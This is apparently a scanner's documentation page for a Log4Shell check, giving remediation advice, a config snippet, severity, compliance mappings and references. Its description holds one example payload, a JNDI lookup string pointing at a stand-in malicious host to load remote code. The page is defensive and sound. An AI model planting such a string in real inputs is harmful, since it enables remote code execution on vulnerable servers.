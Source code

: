 ```yaml
---
title: Log4Shell
---
```


# Log4Shell

## Description

Log4Shell is a vulnerability that allows attackers to execute arbitrary code by injecting untrusted data into log messages processed by the Log4j library.
Example: `logger.error('${jndi:ldap://malicious.com/a}'')` could trigger the execution of code from a remote server.


## Remediation

To prevent Log4Shell vulnerabilities, take the following actions:
- Update Log4j to the latest version, where this vulnerability is patched.
- Use input validation and sanitization to ensure that user inputs are not directly used in log messages.
- Disable the `jndi` lookups in Log4j by setting the system property `log4j2.formatMsgNoLookups` to `true`.
- Restrict outbound network access from the servers running your applications to prevent JNDI lookups from reaching untrusted servers.
- Implement application-level security controls and monitor for unusual log patterns that may indicate attempted exploits.



### REST Specific

<details>
    <summary>Spring_boot</summary>

Update Log4j to version 2.15.0 or later to mitigate the Log4Shell vulnerability. Ensure that log messages do not include untrusted data without proper validation and sanitization. Disable `jndi` lookups by setting the `log4j2.formatMsgNoLookups` system property to `true`. Regularly review and monitor logs for suspicious activities.

</details>

## Configuration

> Identifier: `injection/log4shel`



### Examples



#### Ignore this check

```yaml
checks:
  injection/log4shel:
    skip: true
```




## Score

- Escape Severity: **<span className="high-severity">HIGH</span>**

### Compliance

- OWASP: **[API8:2023](https://github.com/OWASP/API-Security/blob/master/editions/2023/en/0xa8-security-misconfiguration.md)**
- pci: **6.5.10**
- gdpr: **Article-32**
- soc2: **CC6**
- psd2: **Article-97**
- iso27001: **A.14.2**
- nist: **SP800-53**
- fedramp: **SI-10**

### Classification






### Score

- CVSS_VECTOR: **CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H/E:H/RL:O/RC:C**
- CVSS_SCORE: **9.8**

## References

- [https://cwe.mitre.org/data/definitions/829.html](https://cwe.mitre.org/data/definitions/829.html)
  - [https://logging.apache.org/log4j/2.x/security.html](https://logging.apache.org/log4j/2.x/security.html)
  